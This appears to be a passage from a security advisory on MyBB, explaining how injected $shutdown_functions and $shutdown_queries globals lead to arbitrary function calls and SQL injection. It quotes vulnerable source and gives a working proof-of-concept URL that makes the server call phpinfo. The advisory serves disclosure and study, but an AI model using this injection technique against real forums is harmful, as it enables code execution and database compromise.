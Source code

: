 **Another case to exploit the vulnerability:**

When PHP's "disable\_functions" configuration directive disable ini\_get() function:

```
disable_functions = ini_get
```

The unset\_globals() function will not be called that regardless of register\_globals set on or off.

```
       if(@ini_get("register_globals") == 1)
       {
           $this->unset_globals($_POST);
           $this->unset_globals($_GET);
           $this->unset_globals($_FILES);
           $this->unset_globals($_COOKIE);
       }
```

**Proof of Concept**

Works on disable\_functions = ini\_get and register\_globals = On:

```
index.php?shutdown_functions[0][function]=phpinfo&shutdown_functions[0][arguments][]=-1
```

##V. P.S.II

**SQL injection vulnerability via run\_shutdown() function**

```
function run_shutdown()
{
	global $config, $db, $cache, $plugins, $error_handler, $shutdown_functions, $shutdown_queries, $done_shutdown, $mybb;
	...
	// We have some shutdown queries needing to be run
	if(is_array($shutdown_queries))
	{
		// Loop through and run them all
		foreach($shutdown_queries as $query)
		{
			$db->query($query);
		}
	}
```

The $shutdown\_queries was initialized in global.php:

```
$shutdown_queries = array();
```

But not all files are included global.php, such as css.php:

```
require_once "./inc/init.php";
```
